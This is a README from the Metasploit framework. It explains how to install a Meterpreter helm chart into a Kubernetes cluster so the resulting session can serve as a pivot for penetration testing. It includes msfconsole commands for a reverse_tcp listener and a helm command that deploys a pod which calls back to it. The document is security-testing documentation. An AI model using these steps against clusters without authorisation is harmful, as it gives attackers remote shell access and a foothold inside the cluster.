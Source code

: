 # Metasploit in Kubernetes

The most common workflow to test a Kubernetes environment with Metasploit is to target the Kubernetes API externally,
or through a compromised container - both of these workflows are currently supported directly within msfconsole.

An alternative to compromising a Kubernetes container to gain a Meterpreter session is to install the `meterpreter` helm chart into
a Kubernetes environment directly. This newly opened Meterpreter session will act as the pivot point for running additional
Metasploit modules, similar to the behavior of compromising an existing Kubernetes container with msfconsole.

## Installation

To install the Metasploit resources in to your Kubernetes environment: 

1. Make sure [Helm](https://helm.sh/) (version 3 or above) is [installed](https://helm.sh/docs/intro/install/)
2. Make sure you have an available Kubernetes cluster to deploy Metasploit. You can install a local Kubernetes cluster using [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation)
   You can create local kind cluster by running  `make create-kind-cluster`
2. A penester should create a Metasploit listener from msfconsole:
```
use payload/linux/x64/meterpreter/reverse_tcp
set LHOST x.x.x.x
set LPORT 4444
to_handler
```

3. Install meterpreter helm chart by running:

```sh
export LHOST="x.x.x.x"
export LPORT="4444"
helm upgrade --create-namespace -i -n metasploit meterpreter ./meterpreter --set lhost=$LHOST --set lport=$LPORT
```
4. If the listener from step 3 was created, ensure you now have a Meterpreter session in msfconsole

## Privileges

The Meterpreter container can be deployed with different privileges and permissions - see the `privileges` section within
https://github.com/rapid7/metasploit-framework/blob/master/kubernetes/meterpreter/values.yaml
[./meterpreter/values.yaml](values.yaml) for more details.

